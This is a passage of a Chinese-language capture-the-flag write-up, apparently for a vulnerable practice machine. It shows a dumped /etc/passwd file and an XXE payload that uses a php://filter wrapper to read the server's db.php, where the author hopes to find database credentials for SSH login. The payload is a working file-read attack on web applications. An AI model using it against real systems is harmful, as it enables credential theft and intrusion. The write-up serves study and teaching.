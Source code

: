 ![](https://mmbiz.qpic.cn/mmbiz_png/48oBicpxrQuViankqumF48hwm01s2mWhVk4ficCWzLrGE3sHEickiaGfEOKNYUFqOw82Zr5X07G1WSyic7I5AhGcqSkA/640?wx_fmt=png)

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
syslog:x:104:110::/home/syslog:/usr/sbin/nologin
_apt:x:105:65534::/nonexistent:/usr/sbin/nologin
tss:x:106:111:TPM software stack,,,:/var/lib/tpm:/bin/false
uuidd:x:107:112::/run/uuidd:/usr/sbin/nologin
tcpdump:x:108:113::/nonexistent:/usr/sbin/nologin
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
development:x:1000:1000:Development:/home/development:/bin/bash
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
usbmux:x:112:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
```

      现在拿到账号了，而且也开启了 22 端口，但是现在问题是没有密码。怎么能搞到密码呢？突然想起来我们还有一个 db.php 文件，db 里面不存放密码存放什么呢？使用 php 伪协议进行文件读取，由于 linux 的默认目录都在 / var/www/html 目录下，尝试读取文件。

(4): 读取之前看到的数据库文件

       由于之前在 resource 目录下看到了 db.php 文件，在 linux 下一般 web 目录都在 / var/www/html 目录下，读取 db.php 文件

```
var xml = `<?xml  version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/var/www/html/db.php"> ]>
        <bugreport>
        <title>&xxe;</title>
        <cwe>admin</cwe>
        <cvss>admin</cvss>
        <reward>admin</reward>
        </bugreport>`
```
